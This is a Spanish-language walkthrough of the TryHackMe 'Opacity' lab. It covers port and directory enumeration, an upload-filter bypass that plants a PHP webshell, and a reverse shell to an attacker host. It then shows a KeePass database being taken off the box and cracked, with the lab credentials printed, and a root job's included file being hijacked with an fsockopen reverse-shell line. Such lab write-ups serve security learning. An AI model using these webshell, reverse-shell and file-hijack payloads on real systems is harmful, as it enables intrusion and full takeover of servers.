En esta maquina tendremos que bypassear la subida de archivos, para poder subir nuestra webshell para ejecutar comandos y luego tener una shell de la maquina victima. Luego tendremos que crackear la contraseña de `keepass` para iniciar sesión como ssh



- Link [opacity](https://tryhackme.com/room/opacity)
- Created by  [tryhackme](https://tryhackme.com/p/tryhackme) and  [mindsflee](https://tryhackme.com/p/mindsflee)

# Walkthrough

## Enumeración

Iniciamos realizando un escaneo con nmap

```php
❯ nmap -p- --open --min-rate 1000 -vvv [IP-VICTIM] -Pn -n  -oG allportsScan
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack
80/tcp  open  http         syn-ack
139/tcp open  netbios-ssn  syn-ack
445/tcp open  microsoft-ds syn-ack
```

`nmap` reporta los puertos abiertos, de los cuales enumeraremos los servicios que se ejecutan por estos puertos

```php
❯ nmap -p22,80,139,445 -sC -sV -Pn -vvv [IP-VICTIM] -oN servicesScan

PORT    STATE SERVICE     REASON  VERSION

22/tcp  open  ssh         syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCa4rFv9bD2hlJ8EgxU6clOj6v7GMUIjfAr7fzckrKGPnvxQA3ikvRKouMMUiYThvvfM7gOORL5sicN3qHS8cmRsLFjQVGyNL6/nb+MyfUJlUYk4WGJYXekoP5CLhwGqH/yKDXzdm1g8LR6afYw8fSehE7FM9AvXMXqvj+/WoC209pWu/s5uy31nBDYYfRP8VG3YEJqMTBgYQIk1RD+Q6qZya1RQDnQx6qLy1jkbrgRU9mnfhizLVsqZyXuoEYdnpGn9ogXi5A0McDmJF3hh0p01+KF2/+GbKjJrGNylgYtU1/W+WAoFSPE41VF7NSXbDRba0WIH5RmS0MDDFTy9tbKB33sG9Ct6bHbpZCFnxBi3toM3oBKYVDfbpbDJr9/zEI1R9ToU7t+RH6V0zrljb/cONTQCANYxESHWVD+zH/yZGO4RwDCou/ytSYCrnjZ6jHjJ9TWVkRpVjR7VAV8BnsS6egCYBOJqybxW2moY86PJLBVkd6r7x4nm19yX4AQPm8=
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAqe7rEbmvlsedJwYaZCIdligUJewXWs8mOjEKjVrrY/28XqW/RMZ12+4wJRL3mTaVJ/ftI6Tu9uMbgHs21itQQ=
|   256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINQSFcnxA8EchrkX6O0RPMOjIUZyyyQT9fM4z4DdCZyA
80/tcp  open  http        syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
139/tcp open  netbios-ssn syn-ack Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 9962/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26388/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 44927/udp): CLEAN (Failed to receive data)
|   Check 4 (port 28809/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2023-11-11T21:30:01
|_  start_date: N/A
| nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   OPACITY<00>          Flags: <unique><active>
|   OPACITY<03>          Flags: <unique><active>
|   OPACITY<20>          Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
```

### Puerto 80
Vamos a enumerar el puerto `80` en el cual encontraremos una panel de login, intentamos realizar una injección sql, pero no dio resultado



Después de intentar realizar inyección SQL, realizaremos el desubrimiento de los directorios del sitio web del puerto `80`. Haciendo uso de la herramienta `wfuzz` pasaremos a la enumeracion de los directorios del sitio web

```php
❯ wfuzz -c -f directoryWeb,raw -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 --hh 0 http://[IP-VICTIM]/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://[IP-VICTIM]/FUZZ
Total requests: 220560
=====================================================================
ID           Response   Lines    Word       Chars       Payload     
=====================================================================
000000550:   301        9 L      28 W       312 Ch      "css"
000005683:   301        9 L      28 W       314 Ch      "cloud"   
```

La herramienta nos reporta que existe un directorio `cloud` por lo que vamos a revisarlo. El sitio web nos muestra un panel donde al parecer nos deja almacenar una imagen 



Si no se tiene los cuidados necesarios al gestionar la subida de archivos al servidor, este puede ser vulnerable a que se suba un archivo malicioso

## Explotación

En [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload) podemos observar las maneras que podemos bypasear algunos filtros para subir una shell y acceder al servidor

Creamos un archivo `shell.php`  

```
❯ cat shell.php
<?php system($_GET['cmd']); ?>
```

Ahora iniciamos un servidor en ``python``, tu lo puedes hacer en lo que desees

```
❯ python3 -m http.server 80
```

Ponemos el link `http://[IP-ATTACKER]/shell.php#.png`, la `#` hará que todo lo que esta después no lo cuente como un carácter nulo



Despues de subir, visitamos la direccion del sitio donde almacena el archivo

En el sitio web, visitamos `http://[IP-VICTIM]/cloud/images/shell.php?cmd=whoami#.png` agreagando un parametro que en este caso es `whoami` y podemos observara que tenemos respuesta del lado del servidor para ejecutar comandos




Por alguna razon no puede usar el metodo para enviarme un reverse shell, por lo que usare una en ``php`` que lo podemos encotrar en nuestra maquina si usamos `kali linux`  


Cambiamos la direccion ip y el puerto a la de nuestra maquina atacante y el puerto donde inicamos ``ncat`` a la escucha



Realizamos el mismo procedimiento que se hizo anteriormente. Iniciamos un servidor en python `❯ python3 -m http.server 80 ` luego le pasamos el link al servidor `http://[IP-ATTACKER]/php-reverse-shell.php#.png` y subimos nuestra revershell en php

## Escalada de privilegios 
### Usuario - www-data

Si lo hicimos bien obtendremos una shell como el usario `www-data` 



Enumerando el sistema encontraremos un archivo `dataset.kdbx` el cual es un archivo de credenciales que usa `keepass` 



Para traernos a nuestra maquina atacante podemos hacer uso de `python` 

- Iniciamos un servidor en python en la maquina victima `www-data@opacity:/opt$ python3 -m http.server 8080`

- Con `wget` descargamos el archivo `❯ wget http://[IP-VICTIM]:8080/dataset.kdbx`

Para obtener la contraseña de inicio del keepass haremos uso de `keepass2john` 

```php
❯ keepass2john dataset.kdbx> hash
```

Para luego crackearla con `john`



Obtenemos la credencial para ingresar al `keepass`

```
741852963        (dataset)     
```



Una vez ingresado, encontraremos unas credenciales para el usuario `sysadmin`
```
sysadmin: Cl0udP4ss40p4city#8700
```
### Usuario - sysadmin
Iniciamos sesión como el el usuario `sysadmin` por ssh. enumerando los procesos del sistema encontraremos que el usuario root `UID=0` ejecuta un comando por lo que podemos inyectar algún comando


investigando el script tenemos lo siguiente 

```php
sysadmin@opacity:~/scripts$ cat script.php 
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

En esta parte del código `require_once('lib/backup.inc.php');` podemos inyectar algún comando.



Eliminamos el archivo `./scripts/lib/backup.inc.php` para crearnos nuestro propia archivo. 

```
sysadmin@opacity:~$ rm ./scripts/lib/backup.inc.php 
```

El código que pondremos es lo siguiente:

```php
$sock=fsockopen("[IP-ATTACKER]",443);shell_exec("sh <&3 >&3 2>&3");
```

Ponemos a la escucha `ncat` y esperamos a que se ejecute el comando

### Usuario - root



¡VAMOS!
Happy Hacking :)